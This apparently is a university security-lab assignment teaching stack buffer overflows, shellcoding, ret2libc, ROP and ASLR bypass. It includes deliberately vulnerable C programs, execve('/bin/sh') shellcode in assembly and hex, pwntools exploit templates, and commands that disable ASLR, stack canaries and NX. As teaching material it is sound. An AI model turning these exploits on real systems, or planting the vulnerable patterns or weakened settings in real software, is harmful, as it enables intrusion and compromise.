

# Software and Hardware Security Lab 3: Shellcoding and exploits

## Pre-requisites

This exercise requires a deep understanding of how a computer stack works, how it manages the underlying memory and the basics of assembly language.

Before starting with the exercise, it is recommended to read the first two chapters from the book "Low-Level Software Security for Compiler Developers" [^5] and the paper "Smashing The Stack For Fun And Profit"  [^1].

Some concepts from there are also summarised here.

We only cover the Linux operating system in this exercise, while many similarities can also be found with other modern operating systems.


## Background

We often see references for memory errors and might have encountered them ourselves while programming with some systems programming language, especially in C or C++.
Usually, you see `Segmentation fault` or other *undefined behavior* [^8] when you encounter them.


We fuzz test software, to especially find memory errors.
Why is this a big deal?
Historically, memory bugs have caused many security disasters.
In the worst case, memory bugs can be used to manipulate the execution flow of the program, allowing even arbitrary code execution, or reading unauthorized memory sections.

The first documented case of such misuse was documented already in 1988 [^0].
They were brought to public knowledge by Aleph One in his publication "Smashing The Stack For Fun And Profit" in 1996 [^1].
Recent research both from Microsoft and Google suggests that 70% of all security bugs in Microsoft products and Chrome browsers are still memory bugs, in 2019 [^2][^3].
In 2023, the most dangerous software weakness was still *Out-of-bounds Write* [^4].


In this exercise, we will examine the practical implications of memory bugs at a technical level and explore how they've been exploited, particularly through the technique of ***shellcoding***.

As a primary theoretical source, we use the online book "Low-Level Software Security for Compiler Developers" [^5].

## Grading

<details open><summary>Details </summary>
Make a short step-by-step report (what, why and how) of the following tasks, and include source codes and the most important command line commands used in those tasks.
It's recommended to read all tasks before starting.

Actual instructions for what to do are ***in bold and italics*** on each task.

You are eligible for the following grades in this exercise by doing tasks as defined. Great ideas and implementations could compensate for some poorly implemented ones.
*Upper grade requires that all previous tasks have been done as well.*

It is estimated that you can do Tasks 1 & 2 during the lab session (4 hours).

Tasks 3 & 4 are more advanced than earlier ones. Implementation will very likely take much more time.

Task|Points|Description|
----|:---:|-----------|
[Task 1](#task-1-basics-of-buffer-overflows "Task 1 : Basics of buffer overflows") | 1 |  Analyzing buffer overflow and changing execution flow
[Task 2](#task-2-arbitrary-code-execution "Task 2 : Arbitrary code execution") | 2 | Arbitrary code execution in the vulnerable program
[Task 3](#task-3-defeating-no-execute "Task 3 : Defeating No-eXecute") | 1 | Code reuse attack techniques: ret2libc & ROP
[Task 4](#task-4-a-bit-more-advanced-rop-implementation "Task 4 : A bit more advanced ROP implementation") | 1 | A bit more advanced ROP implementation

By doing only Task 2 A, your work compensates 0,5 points.
The B part is worth 1,5 points from the total of 2.

Difficulty on tasks is expected to rise exponentially as you go forward with them.
Without understanding the previous task, the next one could be very ambiguous.

*Return completed tasks to your private GitHub repository!*

</details>

## Introduction

Right below is a summary of memory errors and their dangers.
If you already know these things or have read the previously mentioned book and understood it, you can go directly to the task assignments.

<details closed><summary>Collapsed content </summary>

### What is a memory error?

> Memory access errors describe memory accesses that, although permitted by a program, were not intended by the programmer. [^5]

Memory access errors are often defined [^6] as:

* buffer overflow
* null pointer dereference
* use after free
* use of uninitialized memory
* illegal free

The software is memory-safe if these errors never happen.

There are usually two main reasons, why dangerous memory bugs are possible.
  * The software takes user-defined input
  * This input is not validated nor sanitized, and therefore program flow can be controlled with the input, originally in unintended ways

This input validation and sanitization is one of the major challenges in software development.
You must ensure, that *every* unintended effect from the user-defined input is *prevented* or *handled*.

You want the user to provide a name that is 15 characters long at maximum.
What if they provide 20 characters???

### Buffer overflows

If you don't handle the lengths larger than 15 characters from the previous example in your program, a so-called _buffer overflow_ could happen if a boundary check is not implemented automatically by the programming language.

This error is usually the most dangerous type.
MITRE top one from 2023 (out-of-bounds write)[^4], goes to this category.


To understand why, we need to understand how a computer works on a stack level and the principles of programming languages.


The fundamental philosophy of C programming is that "trust the programmer".
Do not prevent the programmer from doing what needs to be done.
The programmer has ultimate control but also an ultimate responsibility.
It means, that they must use memory correctly as well.

In the naive example below, the software compiles so that it reserves a stack space of 15 characters for the `name` variable in a program.

It means, that at maximum, a name with 14 characters, (+ null terminator `\x00`) can fit into this buffer.
The programmer should know, that the null terminator also takes space.

```c
#include <stdio.h>

int main() {
    char name[15];

    printf("Please enter your name: ");
    scanf("%s", name);

    printf("Hello, %s!\n", name);
    return 0;
}
```

Since the compiler trusts the programmer, the program only does what it is programmed to do, it does not check the boundaries of the buffer in this case.

If the end-user provides inputs larger than 14 characters, the buffer will overflow and it takes space in the memory in the area, which was not reserved for it.

In practice, software buffer overflow means that the space reserved for data is insufficient for the data being stored.

> "Buffer overflows are Mother Nature's little reminder of that law of physics that says: if you try to put more stuff into a container than it can hold, you're going to make a mess." [^7]

Conversely, buffer over-read means that read processing might read more than it should.

We mainly focus on stack buffer overflows in this exercise.

If you are curios how memory in `heap` works, take a look for [this page](https://samwho.dev/memory-allocation/) [^15].

### Understanding the stack

The computer stack is like a stack of books.

1. You can only add (push) or remove (pop) a book from the top. (aka FILO (first in, last out))
2. It's used to keep track of operations like function calls: when a function starts, its details are added (pushed) to the stack, and when it ends, they are removed (popped).
3. If you add too many books beyond the stack's limit, they'll fall off, we have a buffer overflow, or more precisely, "stack buffer overflow".

When an application runs, it uses the stack and registers to manage the program's execution flow. The stack is split into frames, each holding data from functions that haven't yet been completed. These frames store local variables, parameters of potential function calls, return addresses, and more. For instance, if a program has three nested function calls, it would generate three stack frames.

Below is a simplified example from a stackframe of a 32-bit program, where the function B is called before function A.

| Memory Address | Content                      | Description                             |
|:--------------:|:----------------------------:|:---------------------------------------:|
| `0xffbfe14c`   | `Local Variable of funcA()`  | A local variable from `funcA()`         |
| `0xffbfe148`   | `Local Variable of funcA()`  | Another local variable from `funcA()`   |
| `0xffbfe144`   | `Return Address for funcA()` | The return address after `funcA()` completes |
| `0xffbfe140`   | `EBP for funcA()`            | Base pointer (EBP) for `funcA()`        |
| `0xffbfe13c`   | `Local Variable of funcB()`  | A local variable from `funcB()`         |
| `0xffbfe138`   | `Return Address for funcB()` | The return address after `funcB()` completes |
| `0xffbfe134`   | `EBP for funcB()`            | Base pointer (EBP) for `funcB()`        |
| ...            | ...                          | ...                                     |


### Dangers of the overflow

While the stack grows towards the lower memory address, the overflow of the local variables goes towards a higher memory address.
Let's see the illustration below.

```sql
|---------------------|
| Return Address      |  <-- Higher Memory Address
|---------------------|
| Saved Base Pointer  |
|---------------------|
| Local Variable 1    |
|---------------------|
| Array (e.g., char)  |  <-- End of local array
| (Variable 2)|
|                     |
|---------------------|  <-- Start of local array
| Local Variable 2    |
|---------------------|
| ...                 |  <-- Stack Pointer (Lower Memory Address)
|---------------------|
```

When the data stored in `Variable 1` exceeds its allocated space on the stack, it can overwrite adjacent memory regions, which are essential for controlling the program's execution flow.

If an attacker successfully overwrites the return address, they can dictate where the program resumes execution next. Suppose the manipulated return address points to a location containing malicious instructions. In that case, the program will unwittingly execute this code.

In earlier computing eras, many compilers lacked mechanisms to detect or prevent such overflows.
Consequently, these vulnerabilities sometimes lead to arbitrary code execution by exploiting such weaknesses.

For more information, read the chapter 2.3 Stack buffer overflows in "Low-Level Software Security for Compiler Developers" [^5]

### Shellcoding

The term "***shellcoding***" simply comes from the scenario, when these memory bugs have been exploited in a way, that they finally open the computer's shell as a result.

Manipulating the execution flow of susceptible programs can potentially result in privilege escalation.
A program with vulnerabilities, when run with system-level privileges, might unintentionally run arbitrary code with those elevated rights.
Historically, if a payload was capable of launching a shell, it operated with system-level permissions.
Yet, contemporary UNIX systems no longer grant SUID permissions by default.

Acquiring shell access this way usually leads to full control of the system. This has led to shell spawning to be one of the most common goals of attackers.

</details>
<br>

## General tips

You have to use C/C++ programming language in (most) cases when you want to create a program with buffer overflow vulnerability.

Tasks are possible to do in both 32- and 64-bit machine instructions as long as the machine has support for them.
Use flag `-m32` for `gcc` to compile as 32-bit.

**You cannot use the course VM on an ARM-based host machine!**
Instead, you need to emulate `x86_64` platform.


To enable 32-bit support for Arch Linux, uncomment or add the following lines in `/etc/pacman.conf`:
```ini
[multilib]
Include = /etc/pacman.d/mirrorlist
```
And install 32-bit dependencies for `gcc` as
```bash
pacman -Sy multilib-devel
```


For Debian based, install following packages:

```bash
sudo apt-get install gcc-multilib g++-multilib
```

Implementation will differ and be more challenging depending on the version. It's recommended to use the 32-bit version since you can find more examples from it.

Task 3A might not be possible to do with some distributions, which have ASCII Armoring present.
On the latest Arch Linux, it seems to be still possible.

Encoding significantly matters in these tasks, for example, Python 2 print produces just data, whereas Python 3 print produces encoded string by default.

The following external tools will be used in the tasks:

  * [radare2](https://github.com/radareorg/radare2) - advanced disassembler and forensics tool
  * [pwntools](https://github.com/Gallopsled/pwntools) - controlled generation and execution of payloads


### Mitigation

You might have to note the following Linux protections.
You can find most of them from the book[^1].

 * Stack canaries (SSP)
   * `-fno-stack-protector` gcc compiler flag to disable
 * Non-executable pages or stacks (NX)
   * `-z execstack` gcc compiler flag to disable
 * Address Space Layout Randomization (ASLR)
   * To disable globally: `echo 0 > /proc/sys/kernel/randomize_va_space`
 * Less known, no need to note unless specified in the task: (ASCII ARMOR, RELRO, PIE, D_FORTIFY_SOURCE, PTR_MANGLE)

Disable them if required.

On later tasks, we try to bypass some of them: specifically mentioning not to disable them.

GCC 14.1 is getting a single option `-fhardened` to apply multiple protections at once [^13]:

```bash
-D_FORTIFY_SOURCE=3 (or =2 for older glibcs)
-D_GLIBCXX_ASSERTIONS
-ftrivial-auto-var-init=pattern
-fPIE -pie -Wl,-z,relro,-z,now
-fstack-protector-strong
-fstack-clash-protection
-fcf-protection=full (x86 GNU/Linux only)
```

#### Control-flow integrity

Modern processors and compilers' options apply even more complex mitigation to prevent shellcoding.
Code-reuse techniques (ROP, JOP) are mitigated by using a technique called *control-flow integrity*.[^9]
Usually, this is applied by using authentication tags for return addresses or adapting *shadow stack* to compare whether the runtime of the program has changed.
However, it is still possible to bypass these if an advisor, for example, somehow acquires the private key. Check the book for more details.

Different companies in hardware and software might have different names; Intel calls it as Control-flow Enforcement Technology (CET) [^10], Microsoft Control Flow Guard (CFG) [^12] while ARM calls it Pointer Authentication Code (PAC) [^11]

These protections sometimes come with performance impact, and for that reason, they have been also applied on the hardware level.

---

Task 1: Basics of buffer overflows
---

> **Note**
> You will need Python and `pwntools`[^14] dependency for the later parts of this task.


Let's examine this in a real-world scenario.

In this initial task, we are using a simple program with a buffer overflow vulnerability.
With specifically crafted input, we will change the behavior to something unintended for the program but intended for us.

We have the following code, (also located in [src/vuln_progs](src/vuln_progs/overflow.c))

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

void stackoverflow(char* string) {
    char buffer[20];
    strcpy(buffer, string);
    printf("%s\n", buffer);
}

int main(int argc, char** argv) {
    printf("Starting very vulnerable program...\n");
    printf("Printing arguments of the program: \n");
    stackoverflow(argv[1]);
    return 0;
}
```

To get a better understanding of how the stack works, we need to use a debugger.

Go through the tutorial presented [here](gdb_tutorial.md) to get started.

We want to understand the very basics of what is happening in the stack and the registers of the machine at the time when a stack overflow occurs.

Try it out by yourself.
It is not necessary if you are already very familiar with the topic and able to answer bolded questions.

### A) Using a program with improper input validation and analyzing overflow.


What makes this particular (`rip`) register so interesting? What does `ret` instruction have to do with `rip` register in most cases of buffer overflows?

The answers to these lead to the conclusion, that in most cases we might need to put our buffer overflow in an external function, and it's recommended to do so in this lab to not make things too hard.

You can do this task in 32-bit or 64-bit versions.
By default, the program is compiled as 64-bit.

In this case, stack canaries might cause problems if you are using a modern distribution; disable them.

> ***1. Explain briefly the role of the `rip` register and `ret` instruction, and why we are interested in them.***

> ***2. Explain what is causing the overflow in the [example program.](src/vuln_progs/overflow.c)***

> ***3. Further, analyze this program with `gdb` and try to find a suitable size for overflow (padding size), which starts to fill up the instruction pointer register.***
**Provide a screenshot when the overflow occurs and one byte from your input reaches the instruction pointer register.**

### B) Adding hidden (non-used) function to the previous program. (And still executing it)

Let's add a new function to the previously used program, but never actually use it.

We are going to execute this function by overflowing the program with specified input (in other words, with our crafted payload).

In this payload, a specific memory address is utilized, which you should be able to identify based on the information provided in Section A.
To ensure that this address is accurately targeted through buffer overflow, it's essential to use appropriate padding.

By overflowing the buffer with the right amount of padding and inserting the correct memory address, you can redirect the program's execution flow to jump to the specified memory location.
Increment the padding incrementally to fine-tune this process.

An example scenario would be something like this.
The function which is never actually called, is printing something and opening the shell:

```shell
# ./Overflow $(python -c 'print "A" * 10')
AAAAAAAAAA
# ./Overflow $(python -c 'print "A" * 20 + "\x11\x11\x11\x11"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGUUUUAccidental shell access appeared
# exit
exit
Illegal instruction
#

```
Using a script like the above expects the program to take input as an argument.
Also, the way memory address is used as input is not so straightforward. (Is your system Little- or Big-endian?)


***Use gdb or similar programs to analyze your program. Disassembling might be helpful. Find a suitable address, figure out what should be overflowed with it, and how to get the correct values into it, and finally execute the function this way.***

> ***1. Return your whole program with new function as code snippet!***

> ***2. Return the command you used for running the function. How did you execute function by just overflowing the input?***

> ***3. Take a screenshot when you manage to execute the function.***

Tip: If your hidden function contains printing - add a newline ending to the string.
Otherwise, it might not be printing anything that can be actually seen - output needs to be flushed.

### C) Reproduce the previous with `pwntools`

Install `pwntools`, if you haven't already [^14].
```bash
# Create virtual environment
python -m venv venv
# Activate it
source venv/bin/activate
pip install --upgrade pip
pip install pwntools
```

At this point, we are going to move outside of `gdb`.
GBU Debugger creates a separate memory space where the program is being executed.
As a result, the same address does not work when we exit the debugger.
It also disables `ASLR` by default when it runs the program.
Usually, we need to manually disable it globally to succeed, if we don't bypass it in our exploit.

In general, only *a small address change is required for it to work outside of `gbd`*, which could be brute forced.


However, we are going to calculate the address change with the help of `pwntools`, instead of brute forcing it in this case.
It is a library specifically meant for writing exploits.
Use the following `pwntools` template to overflow the program outside of `gdb`.
In this case, `pwntools` creates own virtual memory space for the program, but it is okay for educational purposes.

You only need to replace the part with `'?'` for it to work!
In the example, the program is compiled as 32-bit.
You must compile the program with `-no-pie` option in this case.

```python
from pwn import *
context.update(arch='i386', os='linux', endian='little', word_size=32)
context.binary="./overflow"

def main():
    # Our beloved target binary
    # Note that this generates virtual address space
    task_bin = ELF('./overflow')
    # Payload to be passed into the program
    PADDING_SIZE = '?'
    payload = b"A" * PADDING_SIZE
    # Get address of the function automatically!
    # What are symbols of the compiled program?
    secret = task_bin.symbols['?']
    # 'I' means unsigned as integer, convert integer to hexbytes with correct alignment
    payload += struct.pack('I', secret)
    print(f'Secret address {hex(secret)}')
    p = task_bin.process(argv=[payload])
    print(p.recvall().decode("utf-8", "ignore"))
    # p.interactive() # if your function spawns a shell

if __name__ == "__main__":
    main()
```
Getting used to `pwntools` at this point will help with the following tasks.

> ***Return a screenshot when you manage to execute the "secret" function by using `pwntools` and also return your Python source code.***
---
Task 2: Arbitrary code execution
---

How about if we create a more advanced payload; some arbitrary code that we want to execute, and pass it to our previously created vulnerable program?

Could we redirect the execution flow to our code?
Notably, this could mean the execution of our program within another program.
In the past, this mechanism was entirely possible.

**Ultimately, the goal is to transform our custom code into a format that mirrors its representation in memory during CPU execution. And then, computer could execute it like anything else.**

For clarity's sake, we can draft the payload using C/C++.
After drafting, this code should be manually translated into machine code.
We avoid auto-generating assembly from a compiled binary due to various concerns, which are noted later.
Subsequently, this machine code can be combined with other instructions to complete the payload.

A well-known white paper on this approach is written by Aleph One[^1].

For a deeper understanding, consider referring to the previously cited book and the subsequent blog articles.

  * https://0x00sec.org/t/linux-shellcoding-part-1-0/289
  * https://dhavalkapil.com/blogs/Shellcode-Injection/
  * http://hackoftheday.securitytube.net/2013/04/demystifying-execve-shellcode-stack.html

## A) Crafting the payload

Let's take a look into the following C code:

```c
include <unistd.h>

int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;
        execve(args[0], NULL, NULL);
}
```

We can compile the code and run it. It spawns a shell `/bin/sh`.
```bash
gcc -o shell shell.c
./shell
exit
```

If we take a look at the generated machine code with `objdump -D shell`, it appears that our binary is quite large and it **also includes many null bytes `0x00`**.
Often, our shellcode cannot include null bytes, because the vulnerability is often in string functions, like in this case.
For example, `strcpy` terminates on a null byte.

Also, null bytes behave differently in many other cases.

As a result, we need to write the above functionality without null bytes.
We could get the following 32-bit assembly:
```assembly
global _start

section .text
_start:

xor eax, eax ; Generate Zeros
push eax ; Zero to stack
push 0x68732f6e ;
push 0x69622f2f ; //bin/sh to stack as reversed (hs/nib//)


mov ebx, esp ; Make EBX point to //bin/sh on the Stack using ESP

; PUSH 0x00000000 using EAX and point EDX to it using ESP

push eax
mov edx, esp

; PUSH Address of //bin/sh on the Stack and make ECX point to it using ESP

push ebx
mov ecx, esp

; EAX = 0, Let's move 11 into AL to avoid nulls in the Shellcode

mov al, 11
int 0x80
```
We can compile and link it as a 32-bit binary.

```bash
nasm -f elf32 shell.asm
ld  -m elf_i386 shell.o -o shell
```

Now if you check the machine code with `objdump -D shell`, you can see that it is free from null bytes, and it only has `_start` section.

```assembly
objdump -D shell

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 c0                   xor    %eax,%eax
 8049002:       50                      push   %eax
 8049003:       68 6e 2f 73 68          push   $0x68732f6e
 8049008:       68 2f 2f 62 69          push   $0x69622f2f
 804900d:       89 e3                   mov    %esp,%ebx
 804900f:       50                      push   %eax
 8049010:       89 e2                   mov    %esp,%edx
 8049012:       53                      push   %ebx
 8049013:       89 e1                   mov    %esp,%ecx
 8049015:       b0 0b                   mov    $0xb,%al
 8049017:       cd 80                   int    $0x80
```

In the second column, you can see the machine code presentation of the assembly instructions in hex format.

As the first task, pick these machine code pieces, combine them and test their execution in a C program.
You can look at previous blogs on how it happens more precisely.

The test program could be the following, for example:

```c
#include<stdio.h>
#include<string.h>

void main()
{
    char shellcode[] = "<your shellcode>";
    void(*fp) (void);
    fp = (void *)&shellcode;
    fp();
}
```

Compile the test program with the correct compiler flags and run the shellcode.

> ***Provide the commands for compiling the program, the source code of the test C program with shellcode, and a screenshot when you successfully open a shell by executing the shellcode.***

## B) Executing the payload in another program

In task 1, we figured out that we could redirect the execution flow into a specific memory address by overflowing the stack in a way that the instruction pointer is altered.
We did so by executing a function that was not regularly called.

With this information, we have now the following:
  * We have new machine code from the previous part and we could store it somewhere, preferably in our program's memory space.
  * We could redirect the execution flow into this machine code
  * As a result, we could execute arbitrary code in another program!

We can try to do this like in the first task, by using `gdb` and `python` to generate the payload.

We need to solve the following problems:
  * Can the shellcode fit into the `buffer` variable? Maybe we can adjust its size, or just place the shellcode *after* everything since the stack just grows and we only need the current stack frame for the program to work?
  * What is the address of the shellcode? Can we broaden the memory range and increase the odds by using `NOP` instruction as a so-called NOP sled?

The following presents the flow:



Consult the previously mentioned materials if you get in trouble.

> ***1. At first, you need to open shell by executing the shellcode in the provided sample program, inside `gdb`. Adjust the padding, find the correct memory address and run the shellcode! Provide the command and screenshot when it succeeds. Explain how you obtained the memory address and the logic of your command.***

> ***2. Secondly, let's run the same shellcode with `pwntools`, outside of the debugger. You must brute force the address. However, it should be quite near the one you had in `gdb`. Return your code and screenshot of success. Briefly explain what you had to do.***

Make sure to disable ASLR, and remember to operate with raw bytes instead of encoded strings e.g. use the following instead of `print`, when using python3 to generate payloads:
```bash
python -c 'import sys; sys.stdout.buffer.write()'
```

NOP sled can also help significantly in hitting the correct memory address.

----
Task 3: Defeating No-eXecute
----
In the previous task, we have executed some arbitrary code straight from the stack.
This is a bit simple and old method and has been prevented some (long) time ago.

NX-bit (no-eXecute) was created [^16] to separate areas in memory for the storage of instructions and storage of data.
Processors will not execute data marked by NX-bit; in practice data, which is just 'data'.

This makes execution of our payload in the stack very hard, in a case when it is stored as input to the vulnerable program's memory area.

But what if we are *not* executing code in the stack?
The previous prevention method has led to the forming of *code reuse attack techniques* (ret2libc, ROP, JOP, COOP etc.). These techniques focus on using existing code to build the required functionality.
But from where to get code for reusing?

*The presence of ASLR could be bypassed with specific implementation and combination of these techniques as well, but that will be left outside of this task, as it makes things a bit more complicated. Usually, it requires information leakage as well. By default, it will probably prevent everything that we are doing next.*

From the previously mentioned techniques, we are taking a short glance at ret2libc and ROP, which are some basic and original techniques.

### A) Return-to-libc (aka ret2libc)

One solution for this is... are libraries. Specifically: dynamic libraries, which are launched only during at the execution of the program.
We can safely say that it's a very rare case if a program is not using any libraries.

Library functions are not marked by NX - bit: they are existing instructions.
By overflowing the stack suitably, we might be able to execute library functions with the parameters we want.
We could craft our payload to use functions from libraries by overflowing return addresses to point toward them.
Reusing functions of the vulnerable program is possible as well, but it might not be that beneficial.

One very common library is **libc** (which probably named this method 'ret2libc'), which grants a lot of flexibility. And the most useful function from there could be *system()*. By giving */bin/sh* as an argument, we could start a shell.
If we somehow pass the correct argument to the system() function, the code isn't executed in the stack, it's executed in the address of system(). This was one of the earliest methods to bypass NX protection.

> ***In this task, you should make an example implementation of this ret2libc method. It could be for example spawning a local shell. This time, **do not** disable NX protection (do not use -z execstack flag in compiler). Disabling other protections is still required. Like previously, make a step by step report(what, why, how) including possible source files and command line commands which lead you to get shell access.***

To be noted:
* You should check if ASCII Armoring is present in your system. If null bytes are present in `system` function, it is enough to describe how you could have done the task.
* This task is much easier to get done with 32-bit binaries; the function parameters are passed differently when compared to a 64-bit system. (Stack vs. registers?)

One simple implementation can be found in [this](https://shellblade.net/files/docs/ret2libc.pdf) paper for example.

Extra: Method was first introduced [here.](https://seclists.org/bugtraq/1997/Aug/63)

### B) Return-oriented programming (aka ROP)

Return-to-libc method brings some limitations: we are very dependent on the libraries' functions and arguments (and vulnerable program's text segment's).
Sometimes the overall functionality that we are willing to achieve is very hard to implement with just pure existing functions.
With ret2libc technique, pure function calls with parameters are limited only to two calls. This will be explained later.

Return-oriented programming is the more sophisticated version of ret2libc;
instead of reusing library functions, we are additionally reusing **code chunks** (instruction
sequences) from libraries and from the program itself. These areas are in the program's executable memory.

In practice, we are using these sequences, which will end to **ret** instruction.
This instruction is meaningful to us, as we can chain these code chunks (which are usually called 'gadgets') to build the actual 'bigger' code we need.
After the gadget is executed, the execution flow can be set so, that a new gadget will be executed, and so on.
By using some special gadgets, we can control the stack so, that we can chain these calls as much as we want.

Intel style example may be as simple as it can get:
```shell
pop eax ;ret
```
By giving enough reusable code, ROP is *Turing complete* [^17].

But how we are getting and executing these gadgets?

We could manually disassemble binaries and look for them, but that could take a lot of effort.
Luckily there are now some tools that we can use.

One very frequently updated and multipurpose tool - [radare2](https://github.com/radare/radare2) is used as an example.

Let's use once again our vulnerable program as the target that we used in Task 1.
The tutorial for an ROP and example for using radare2 (and pwntools) with it, is [here. ](Radare2_and_gadgets.md)

Simple, but practical demonstration of the ROP technique can be found [here](https://tc.gts3.org/cs6265/2016/l/lab07-rop/README-tut.txt).

Extra: The white paper introducing the ROP can be found here [^18].

> ***Try to get previously mentioned example (ROP_hello) [here](src/ROP_hello.py) to work by yourself. Next, make simple example implementation of ROP technique. This could be spawning a local shell for example. To not make it same as ret2libc method, print some text before spawning shell, and print also something after exiting the shell. In this way we can apply some ROP - chain.***

Tip: If you are being bit unlucky, and are facing some function addresses containing null bytes in non-Ascii-Armored system, try out some alternative functions. For example, `putchar` function has `putchar_unlocked` alternative.

Extra: What if you use symbols with `pwntools` and also load the `libc` binary with it? You can avoid the hardcoded addresses altogether.

----
Task 4: A bit more advanced ROP implementation
----
You have the option to do a pre-defined task below **or** suggest some other task you would do. Something interesting in shellcoding, but we haven't dealt with it yet? Feel free to implement and show us what you got.
It does not necessarily need to be related to ROP particularly, but in most cases, it probably must. *Your task has to be approved by the assistant before you can start doing it.*

## Defeating ASLR (kinda): pre-defined task

As the name implies, ASLR (Address Space Layout Randomization) randomizes locations in the virtual memory where modules are loaded.

In this task, the executable is compiled with Position Independent Executable (PIE)
disabled; therefore, ASLR is disabled for this executable. But hardcoding e.g., libc function addresses into the exploit is not possible in this task because of ASLR.

Before starting working on this task confirm that ASLR is enabled:

```console
$ cat /proc/sys/kernel/randomize_va_space
2
```

If not, enable ASLR:

```console
$ echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
2
```

Your objective is to:

1. Find the buffer overflow vulnerability
2. Figure out how it could be used to read memory. Hints:
   1. Does the executable import functions that can print strings (or memory) to stdout?
3. Use that to disclose imported libc function addresses. Hints:
   1. Checkout .got.plt.
   2. Remember to enter the main loop again after every read (ret back to loop start)
      * Be careful that you `ret` to the correct place, otherwise, segfault is likely.
4. Find libc version and base address using that information. Hints:
   * Use libc database, such as https://libc.blukat.me/
5. Compute your desired libc function (or gadget address) using that information
6. Create a ROP chain that opens a local shell using e.g., system or execve

See [task4.c](./src/vuln_progs/task4.c) for the vulnerable program source code.
The 32-bit binary is in [prog_bin/](./prog_bin). The binary was compiled using:

```console
gcc task.c -m32 -no-pie -o task4
```

I recommend that you develop your exploit using `pwntool` script, similar to the one seen below. This one debugs the program using gdb and sets up breakpoints at locations `main` and `0x8049246`.
In gdb, assembly can be viewed using `layout asm` and the stack can be printed using `x/20xw $esp`. Similarly, `x/20xw $ebp` prints the current stack frame. See [GDB documentation](https://www.gnu.org/software/gdb/documentation/).

```python
#!/usr/bin/python3
import pwn
import pwnlib.util.packing as packing
import struct

pwn.context.terminal = ['/usr/bin/x-terminal-emulator', '-e']
pwn.context.log_level = 'debug'

io = pwn.pwnlib.gdb.debug('./program', '''
break main
break *0x8049246
''')

# put your exploit here

io.interactive()
```


[^0]: [The Internet Worm of 1988](https://web.archive.org/web/20070520233435/http://world.std.com/~franl/worm.html)
[^1]: [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
[^2]: [A proactive approach to more secure code ](https://msrc.microsoft.com/blog/2019/07/a-proactive-approach-to-more-secure-code/)
[^3]: [Memory safety](https://www.chromium.org/Home/chromium-security/memory-safety/)
[^4]: [2023 CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/archive/2023/2023_top25_list.html)
[^5]: [Low-Level Software Security for Compiler Developers](https://llsoftsec.github.io/llsoftsecbook/)
[^6]: [SoK: Eternal War in Memory](https://ieeexplore.ieee.org/document/6547101?arnumber=6547101)
[^7]: [2009 CWE/SANS Top 25 Most Dangerous Programming Errors](https://cwe.mitre.org/top25/archive/2009/2009_cwe_sans_top25.html)
[^8]: [Undefined behavior](https://en.wikipedia.org/wiki/Undefined_behavior)
[^9]: [Control-flow Integrity ](https://en.wikipedia.org/wiki/Control-flow_integrity)
[^10]: [A Technical Look at Intel’s Control-flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html)
[^11]: [Pointer Authentication on ARMv8.3](https://www.qualcomm.com/content/dam/qcomm-martech/dm-assets/documents/pointer-auth-v7.pdf)
[^12]: [Control Flow Guard for platform security](https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard)
[^13]: [RFC: Introduce -fhardened to enable security-related flags](https://gcc.gnu.org/pipermail/gcc-patches/2023-August/628748.html)
[^14]: [pwntools - CTF toolkit](https://github.com/Gallopsled/pwntools)
[^15]: [Memory Allocation](https://samwho.dev/memory-allocation/)
[^16]: [What's The "NX Bit"?](https://www.scribd.com/document/60416747/NX-bit)
[^17]: [Microgadgets: Size Does Matter In Turing-complete Return-oriented Programming](https://publications.sba-research.org/publications/woot12.pdf)
[^18]: [The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)](https://hovav.net/ucsd/dist/geometry.pdf)
